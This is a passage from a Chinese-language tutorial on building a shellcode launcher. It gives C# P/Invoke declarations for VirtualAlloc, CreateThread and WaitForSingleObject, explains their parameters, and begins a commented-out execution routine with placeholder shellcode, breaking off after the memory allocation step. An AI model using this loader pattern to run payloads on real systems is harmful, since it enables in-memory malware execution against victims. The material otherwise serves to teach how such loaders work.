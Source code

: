 
##### 2. Shellcode 启动器 (Shellcode Launcher)

Shellcode 启动器负责将 Shellcode (一小段机器码) 加载到内存并执行它。

- **P/Invoke 定义片段 (C# 示例)**:
    
    C#
    
    ```
    using System.Runtime.InteropServices;
    using System;
    
    class ShellcodeLauncherAPIs
    {
        public const uint MEM_COMMIT = 0x1000;
        public const uint PAGE_EXECUTE_READWRITE = 0x40; // Memory protection constant
    
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
    
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
    }
    ```
    
- **API 调用解释**:
    
    - `VirtualAlloc`: 在调用进程的虚拟地址空间中保留、提交或更改页面区域的状态。常用于为 Shellcode 分配具有执行权限的内存。
        - `lpAddress`: 期望的起始地址（通常为 `IntPtr.Zero`，让系统决定）。
        - `dwSize`: 分配的内存大小。
        - `flAllocationType`: 内存分配类型（如 `MEM_COMMIT` 表示分配物理存储）。
        - `flProtect`: 内存保护属性（如 `PAGE_EXECUTE_READWRITE` 表示可读、可写、可执行）。
    - `WaitForSingleObject`: 等待指定的对象进入信号状态或超时间隔过去。常用于等待新创建的线程执行完毕。
        - `hHandle`: 要等待的对象的句柄 (这里是线程句柄)。
        - `dwMilliseconds`: 超时时间 (毫秒，`0xFFFFFFFF` 或 `INFINITE` 表示无限等待)。
    - `CreateThread`: 在调用进程的虚拟地址空间中创建一个新线程来执行。
        - `lpStartAddress`: 指向线程函数的指针 (这里是 Shellcode 在内存中的地址)。
        - `lpParameter`: 传递给线程函数的参数。
        - `dwCreationFlags`: 控制线程创建的标志 (如 `0` 表示立即运行)。
        - `lpThreadId` (out): 接收线程标识符。
- **Shellcode 执行代码片段 (概念性)**:
    
    C#
    
    ```
    // byte[] shellcode = new byte[] { 0x90, 0x90, 0xC3 }; // Placeholder for actual shellcode
    
    /*
    public static void ExecuteShellcode(byte[] shellcode)
    {
        // 1. Allocate memory with execute permissions
        IntPtr funcAddr = ShellcodeLauncherAPIs.VirtualAlloc(
            IntPtr.Zero,
            (uint)shellcode.Length,
            ShellcodeLauncherAPIs.MEM_COMMIT,
            ShellcodeLauncherAPIs.PAGE_EXECUTE_READWRITE
        );
        if (funcAddr == IntPtr.Zero) { /* error handling */ return; }
    